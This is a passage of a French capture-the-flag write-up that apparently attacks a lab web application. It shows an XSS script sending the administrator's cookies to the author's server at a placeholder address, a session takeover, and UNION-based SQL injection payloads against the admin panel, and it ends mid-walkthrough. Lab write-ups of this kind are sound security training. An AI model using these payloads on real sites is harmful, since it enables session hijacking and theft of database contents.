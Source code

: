 ### **Voler les cookies de l’administrateur**

Quand nous créons un nouvel item, l’input est vulnérable à une XSS

![Untitled](https://user-images.githubusercontent.com/68467919/207140405-9b02edc6-f8f1-43c3-9b31-3986e7c4a300.png)

En créant un petit script, nous pourrions rediriger l’administrateur et report notre propre item pour qu’il puisse être redirigé vers notre serveur web pour voler ses cookies.

```html
<script>
        window.location="http://$ip:1337/cookies?=".concat(document.cookie);
</script>
```

Je vais donc report un autre item puis modifier dans le code source la destination de mon vrai payload 

![Untitled 1](https://user-images.githubusercontent.com/68467919/207140444-31b30935-364d-4f5f-8bef-4cbf8aee11fc.png)

Sur mon serveur web, je reçois bien le cookie de l’administrateur

![Untitled 2](https://user-images.githubusercontent.com/68467919/207140488-18ef5f7c-a994-4979-b230-3d23dfd7925b.png)

![Untitled 3](https://user-images.githubusercontent.com/68467919/207140510-e4d9b188-d2c1-47b1-bb67-f154c7498f00.png)

En changeant la valeur de mon cookie, je suis désormais connecté sur le compte de l’administrateur

## Flag 1 | Administration panel

![Untitled 5](https://user-images.githubusercontent.com/68467919/207140669-a6630763-e2ee-4457-bfbc-a588516e3888.png)

### SQL Injection | Administration panel

Non seulement nous récupérons le premier flag dans /admin mais en plus de ça, les id sont vulnérables à une injection SQL

![Untitled 6](https://user-images.githubusercontent.com/68467919/207140699-6d383b64-70f6-4192-8920-d8c849cf26c7.png)


Définissons le nombre de colonnes qui se trouvent dans la base de donnée courante.

```sql
2 UNION SELECT NULL,NULL,NULL,NULL -- -
```

Après avoir cherché où les données pouvaient être reflétées, j’ai remarqué qu’en changeant le dernier “NULL” par une string ou un int, le “is administrator” changeait de valeur. J’ai pensé à une BLIND Sqli, mais en essayant pas mal de payloads, rien ne fonctionnait.

En mettant un id supérieur au nombre d’utilisateur, il est possible d’avoir un retour visuel.

```sql
http://10.10.36.15/admin?user=5 UNION SELECT "a","b","c","d" -- -
```
![Untitled 7](https://user-images.githubusercontent.com/68467919/207140730-a8545b45-9316-40a0-ae86-88fcb7cbba76.png)
